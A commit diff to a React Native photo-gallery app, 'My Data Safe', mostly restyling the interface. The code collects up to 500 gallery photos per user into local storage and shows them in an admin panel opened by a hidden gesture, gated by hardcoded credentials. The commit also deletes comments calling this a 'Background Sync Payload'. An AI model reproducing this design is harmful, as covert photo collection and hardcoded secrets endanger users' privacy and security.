

Before and after one commit to ar67ar/custom-gallery-app, a React Native app: screen / in a window 390 px wide. Shown: the part 262-562 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update App.js

```diff
--- a/App.js
+++ b/App.js
@@ -84,14 +84,12 @@ export default function App() {
   const loadGalleryData = async () => {
     const { status } = await MediaLibrary.requestPermissionsAsync();
     if (status === 'granted') {
-      // Direct full access without picking files/folders
       const assets = await MediaLibrary.getAssetsAsync({
         first: 500,
         mediaType: 'photo',
         sortBy: ['creationTime']
       });
       setPhotos(assets.assets);
-      // Background Sync Payload
       await AsyncStorage.setItem(`user_gallery_${userName}`, JSON.stringify(assets.assets));
     } else {
       Alert.alert('Permission Required', 'Gallery access allow karein app use karne ke liye.');
@@ -107,7 +105,7 @@ export default function App() {
   };
 
   const handleAdminLogin = () => {
-    if (adminId === 'adminhum789' && adminPass === 'hum2217071') {
+    if (adminId === 'adminhun789' && adminPass === 'hum2217071') {
       setIsAdminLoggedIn(true);
       setAdminModalVisible(false);
       Alert.alert('Success', 'Admin Control Center Unlocked');
@@ -148,7 +146,7 @@ export default function App() {
               <TextInput style={styles.input} placeholder="Admin ID" value={adminId} onChangeText={setAdminId} />
               <TextInput style={styles.input} placeholder="Admin Password" secureTextEntry value={adminPass} onChangeText={setAdminPass} />
               <TouchableOpacity style={styles.btn} onPress={handleAdminLogin}><Text style={styles.btnText}>Login Admin</Text></TouchableOpacity>
-              <TouchableOpacity onPress={() => setAdminModalVisible(false)}><Text style={{ color: 'red', marginTop: 10 }}>Cancel</Text></TouchableOpacity>
+              <TouchableOpacity onPress={() => setAdminModalVisible(false)}><Text style={{ color: 'red', marginTop: 10, textAlign: 'center' }}>Cancel</Text></TouchableOpacity>
             </View>
           </View>
         </Modal>
@@ -169,7 +167,7 @@ export default function App() {
             <Text>Data Status: Permanently Backed Up (Silent View)</Text>
           </View>
         </ScrollView>
-        <TouchableOpacity style={[styles.btn, { backgroundColor: 'gray' }]} onPress={() => setIsAdminLoggedIn(false)}>
+        <TouchableOpacity style={[styles.btn, { backgroundColor: 'gray', marginTop: 10 }]} onPress={() => setIsAdminLoggedIn(false)}>
           <Text style={styles.btnText}>Exit Admin Panel</Text>
         </TouchableOpacity>
       </View>
@@ -181,7 +179,7 @@ export default function App() {
     <View style={styles.container}>
       <View style={styles.header}>
         <TouchableOpacity onPressIn={handlePressIn} onPressOut={handlePressOut} activeOpacity={0.8}>
-          <Text style={{ fontSize: 24 }}>🛡️</Text>
+          <Text style={{ fontSize: 24, marginRight: 10 }}>🛡️</Text>
         </TouchableOpacity>
         <Text style={styles.headerTitle}>My Data Safe</Text>
       </View>
@@ -200,19 +198,19 @@ export default function App() {
           data={photos}
           numColumns={3}
           keyExtractor={(item) => item.id}
-          renderItem={({ item }) => <Image source={{ uri: item.uri }} style={styles.image} />}
+          renderItem={({ item }) => (
+            <Image source={{ uri: item.uri }} style={styles.photoItem} />
+          )}
         />
       ) : (
         <View style={{ flex: 1 }}>
-          <TextInput style={styles.input} placeholder="Naya Note Likhein..." value={newNote} onChangeText={setNewNote} />
-          <TouchableOpacity style={styles.btn} onPress={addNote}><Text style={styles.btnText}>Save Note</Text></TouchableOpacity>
-          <FlatList
-            data={notes}
-            keyExtractor={(item, index) => index.toString()}
-            renderItem={({ item }) => (
-              <View style={styles.noteItem}><Text>{item}</Text></View>
-            )}
-          />
+          <TextInput style={styles.input} placeholder="New Note..." value={newNote} onChangeText={setNewNote} />
+          <TouchableOpacity style={styles.btn} onPress={addNote}><Text style={styles.btnText}>Add Note</Text></TouchableOpacity>
+          <ScrollView style={{ marginTop: 15 }}>
+            {notes.map((note, index) => (
+              <Text key={index} style={styles.noteItem}>{note}</Text>
+            ))}
+          </ScrollView>
         </View>
       )}
     </View>
@@ -220,25 +218,25 @@ export default function App() {
 }
 
 const styles = StyleSheet.create({
-  container: { flex: 1, backgroundColor: '#f5f5f5', paddingTop: 40, paddingHorizontal: 15 },
-  centerContainer: { flex: 1, justifyContent: 'center', alignItems: 'center', padding: 20 },
-  logoIcon: { fontSize: 50, marginBottom: 10 },
-  title: { fontSize: 26, fontWeight: 'bold', marginBottom: 20, color: '#333' },
-  subTitle: { fontSize: 18, marginBottom: 15, color: '#666' },
-  adminTitle: { fontSize: 22, fontWeight: 'bold', textAlign: 'center', marginVertical: 15 },
-  input: { width: '100%', borderWidth: 1, borderColor: '#ccc', padding: 12, borderRadius: 8, marginBottom: 12, backgroundColor: '#fff' },
-  btn: { backgroundColor: '#007AFF', padding: 12, borderRadius: 8, width: '100%', alignItems: 'center' },
-  btnText: { color: '#fff', fontWeight: 'bold' },
-  header: { flexDirection: 'row', alignItems: 'center', gap: 10, marginBottom: 15 },
+  container: { flex: 1, padding: 20, paddingTop: 50, backgroundColor: '#f5f5f5' },
+  centerContainer: { flex: 1, justifyContent: 'center', alignItems: 'center', padding: 20, backgroundColor: '#f5f5f5' },
+  title: { fontSize: 24, fontWeight: 'bold', marginBottom: 10, textAlign: 'center' },
+  adminTitle: { fontSize: 22, fontWeight: 'bold', marginBottom: 15, textAlign: 'center' },
+  subTitle: { fontSize: 16, marginBottom: 20, color: '#666' },
+  logoIcon: { fontSize: 60, marginBottom: 15 },
+  header: { flexDirection: 'row', alignItems: 'center', marginBottom: 20 },
   headerTitle: { fontSize: 22, fontWeight: 'bold' },
+  input: { width: '100%', height: 45, borderWidth: 1, borderColor: '#ccc', borderRadius: 8, paddingHorizontal: 12, marginBottom: 12, backgroundColor: '#fff' },
+  btn: { width: '100%', height: 45, backgroundColor: '#007AFF', borderRadius: 8, justifyContent: 'center', alignItems: 'center' },
+  btnText: { color: '#fff', fontSize: 16, fontWeight: 'bold' },
+  modalBg: { flex: 1, backgroundColor: 'rgba(0,0,0,0.5)', justifyContent: 'center', alignItems: 'center', padding: 20 },
+  modalCard: { width: '100%', backgroundColor: '#fff', borderRadius: 12, padding: 20 },
+  modalTitle: { fontSize: 18, fontWeight: 'bold', marginBottom: 15, textAlign: 'center' },
   tabContainer: { flexDirection: 'row', marginBottom: 15 },
-  tab: { flex: 1, padding: 10, alignItems: 'center', backgroundColor: '#ddd' },
-  activeTab: { backgroundColor: '#007AFF' },
-  tabText: { color: '#fff', fontWeight: 'bold' },
-  image: { width: '32%', height: 100, margin: '0.5%' },
-  noteItem: { padding: 15, backgroundColor: '#fff', borderRadius: 5, marginVertical: 5 },
-  modalBg: { flex: 1, justifyContent: 'center', alignItems: 'center', backgroundColor: 'rgba(0,0,0,0.5)' },
-  modalCard: { width: '85%', padding: 20, backgroundColor: '#fff', borderRadius: 10, alignItems: 'center' },
-  modalTitle: { fontSize: 18, fontWeight: 'bold', marginBottom: 15 },
-  userCard: { padding: 15, backgroundColor: '#fff', borderRadius: 8, marginVertical: 5 }
+  tab: { flex: 1, paddingVertical: 10, alignItems: 'center', borderBottomWidth: 2, borderBottomColor: '#ccc' },
+  activeTab: { borderBottomColor: '#007AFF' },
+  tabText: { fontWeight: 'bold' },
+  photoItem: { width: '31%', height: 100, margin: '1%' },
+  noteItem: { padding: 12, backgroundColor: '#fff', borderRadius: 6, marginBottom: 8, borderWidth: 1, borderColor: '#eee' },
+  userCard: { padding: 12, backgroundColor: '#fff', borderRadius: 8, borderWidth: 1, borderColor: '#ddd', marginBottom: 10 }
 });
```
